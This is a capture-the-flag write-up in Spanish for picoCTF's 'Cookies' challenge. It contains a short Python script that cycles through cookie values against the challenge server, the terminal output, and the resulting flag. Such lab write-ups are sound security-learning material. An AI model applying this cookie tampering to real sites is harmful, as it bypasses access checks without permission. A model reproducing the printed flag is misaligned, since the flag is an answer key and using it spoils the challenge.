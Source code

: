 ## Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

## Pistas 
****** 
## Solucion
```python
import requests


url = "http://mercury.picoctf.net:17781/check"

for i in range(21):
	cookies = {"name": f"{i}"}
	r = requests.get(url, cookies = cookies)
	if "picoCTF{" in r.text:
		print(r.text) 

```
---
```
jt@jt-VirtualBox:~$ python3 exploit.py | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
jt@jt-VirtualBox:~$ 

```
## bandera
picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## Notas adicionales 

## Referencias
